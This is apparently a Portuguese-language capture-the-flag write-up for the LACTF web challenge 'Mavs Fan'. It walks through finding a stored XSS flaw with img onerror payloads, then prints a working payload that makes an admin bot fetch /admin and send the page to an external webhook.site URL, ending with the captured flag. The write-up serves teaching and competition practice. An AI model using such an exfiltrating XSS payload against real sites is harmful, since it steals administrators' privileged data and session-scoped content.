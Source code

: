 # Writeup: Mavs Fan

**Plataforma**: LACTF\
**Categoria**: Web Exploitation\
**Autor**: stewie

---

## Descrição

Just a Mavs fan trying to figure out what Nico Harrison cooking up for my team nowadays...

O desafio gira em torno de um site onde um administrador, representado pelo **ADMIN BOT**, acessa links enviados pelos usuários. O objetivo é explorar essa mecânica para forçar o bot a acessar uma página restrita e exfiltrar a flag.

**Hint** - You can send a link to your post that the admin bot will visit. Note that the admin cookie is HttpOnly!

---

## Desafio

O desafio "Mavs Fan" apresenta um site vulnerável a **Cross-Site Scripting (XSS)**, permitindo a execução de scripts arbitrários no contexto do usuário administrador. Como o bot administrador visita links fornecidos pelos usuários, podemos explorar essa vulnerabilidade para fazer com que ele acesse a página restrita `/admin` e nos envie a flag.

---

## Solução

### 🔗 1. Webhook

Como não temos acesso direto ao painel `/admin`, precisamos de uma maneira de capturar os dados da flag quando o **ADMIN BOT** acessar a página. Como o bot visita links fornecidos por nós e executa nosso código malicioso, podemos aproveitar isso para exfiltrar a flag.

Para isso, utilizamos um **webhook**, que nos permite receber requisições HTTP em um endpoint controlado por nós. Dessa forma, podemos enviar a flag capturada diretamente para o webhook e visualizá-la remotamente.

### 📡 2. Como funciona o Webhook

O webhook é uma ferramenta que permite capturar requisições HTTP em tempo real. Ele gera uma URL única para onde podemos enviar dados, e, ao acessarmos o site do webhook, conseguimos visualizar todas as requisições recebidas.

Neste caso, usamos o webhook para receber a flag extraída do painel `/admin`. Assim que o **ADMIN BOT** executa o script, ele faz uma requisição GET para nosso webhook com a flag como parâmetro da URL.

---

### 🔍 3. Testando a vulnerabilidade XSS

Inicialmente, testamos a injeção de JavaScript diretamente no campo de mensagens do site:

```html
<script>
  alert("JavaScript Executado!");
</script>
```

Isso resultou em um erro, indicando que a filtragem do site bloqueava tags `<script>`.

Em seguida, testamos a carga de um evento `onerror` em uma tag de imagem:

```html
<img src="x" onerror="alert('Executou!')" />
```

Este payload foi bem-sucedido, confirmando a vulnerabilidade XSS.

---

### 🚀 4. Explorando o XSS para extrair a flag

A flag estava em uma parte do site onde não tínhamos permissão de acesso direta. Como sabíamos que o **ADMIN BOT** acessaria links enviados, elaboramos um script que forçava o bot a acessar `/admin` e enviava a resposta para um **webhook** controlado por nós.

O código injetado foi:

```html
<img
  src="x"
  onerror="
fetch('/admin')
  .then(response => response.text())
  .then(flag => {
    new Image().src = 'https://webhook.site/1e751fa9-a7b3-44cd-8ab6-13ecef250d7a?flag=' + encodeURIComponent(flag);
  });
"
/>
```

Este código:

1. Executa uma requisição **fetch()** para a página restrita `/admin`, utilizando as credenciais do **ADMIN BOT**.
2. Captura a resposta, que contém a flag.
3. Envia a flag para o webhook através de uma requisição de imagem (`new Image().src`).

---

### 🎯 5. Executando o ataque

1. Inserimos o payload no campo de mensagens do site.
2. Copiamos a URL gerada e a enviamos para o **ADMIN BOT**.
3. O bot acessou o site com permissões de administrador e executou nosso script.
4. Nosso webhook recebeu uma requisição GET contendo a flag na resposta.

**Imagem da flag obtida pelo webhook:**

---

## 🏆 Flag

```
lactf{m4yb3_w3_sh0u1d_tr4d3_1uk4_f0r_4d}
```

---

## Autores da WriteUp

[Membro de Networking - jvittor1](https://github.com/jvittor1)

[Membro de Networking - gabrielhdsalves](https://github.com/gabrielhdsalves)

